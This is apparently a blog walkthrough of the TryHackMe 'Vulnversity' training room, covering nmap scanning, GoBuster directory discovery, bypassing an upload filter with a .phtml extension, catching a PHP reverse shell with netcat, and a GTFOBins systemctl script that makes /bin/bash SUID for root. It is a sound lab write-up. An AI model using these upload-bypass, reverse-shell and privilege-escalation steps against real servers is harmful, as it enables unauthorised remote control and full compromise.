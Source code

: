```yaml
---
title: Try Hack Me - Vulnversity - Learning
date: 2022-12-22
tags: [Vulnversity,THM,CTF]
image: vuln.png
---
```

Learn about active recon, web app attacks and privilege escalation.
---

**Machine IP=YOUR MACHINE IP**

### Task 1 - Deploy the Machine

- Need to Deploy the Machine and connect to Open Vpn. If you do not know how to connect to Open VPN.
Look at [OpenVPN](https://tryhackme.com/room/openvpn) 

### Task 3 - Locating directories uning GoBuster
- Gather information about this machine using a network scanning tool called nmap. 
Check out the [Nmap](https://tryhackme.com/room/furthernmap) room for more on this!

#### Questions

1. There are many nmap [cheatsheets](https://cdn.comparitech.com/wp-content/uploads/2019/06/Nmap-Cheat-Sheet-1.webp) online that you can use too. - **Answer** NO Answer, just click **Completed** 
2. Scan the box, how many ports are open? **Answer** **6**
3. What version of the squid proxy is running on the machine? - **Answer** **3.5.12**
4. What version of the squid proxy is running on the machine? - **Answer** **400**
5. Using the nmap flag -n what will it not resolve? - **Answer** **DNS**
6. What is the most likely operating system this machine is running? - **Answer** **Ubuntu**
7. What port is the web server running on? - **Answer** **3333**
8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background) - **Answer** NO Answer, just click **Completed** 

### Task 3 - Locating directories using GoBuster
- Using a fast directory discovery tool called GoBuster you will locate a directory that you can use to upload a shell to.

- Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.
GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.

#### Questions
1. Now lets run GoBuster with a wordlist: gobuster dir -u http://<ip>:3333 -w <word list location> - **Answer** NO Answer, just click **Completed** 
2. What is the directory that has an upload form page? - **Answer** **/internal/**

### Task 4 Compromise the webserver
Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.

#### Questions
1. What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out. - **Answer** **.php** 

<!-- Need to Add a Image --!>

2. To identify which extensions are not blocked, we're going to fuzz the upload form.
To do this, we're going to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please completeour [BurpSuite](https://tryhackme.com/room/rpburpsuite) room first. - **Answer** NO Answer, just click **Completed**

<!-- Need to Add a Image --!>

3. Run this attack, what extension is allowed? - **Answer** **.phtml**


##### Reverse PHP Shell

Now we know what extension we can use for our payload we can progress.

We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!

Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

To gain remote access to this machine, follow these steps:

- Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).

- Rename this file to php-reverse-shell.phtml

- We're now going to listen to incoming connections using netcat. Run the following command: nc -lvnp 1234

- Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload

4. You should see a connection on your netcat session **Answer** NO Answer, just click **Completed** 

<!-- Need to Add a Image --!>

5. What is the name of the user who manages the webserver **Answer** **bill**

6. What is the user flag **Answer** **You can find it as a user Flag**

### Task 5 Privilege Escalation
Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

[GTFOBins](https://gtfobins.github.io/) is the best tool for bypass local security restrictions but to bypass the [systemctl](https://gtfobins.github.io/gtfobins/systemctl/) binary you need to modify this script to work with SystemCTL
<code>
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
<code>

#### Questions
1. On the system, search for all SUID files. What file stands out? **Answer** **/bin/systemctl**

2. Become root and get the last flag (/root/root.txt) **Answer**  **You can find it as a root Flag**



{{< youtube hvYWCegfEZs>}} 


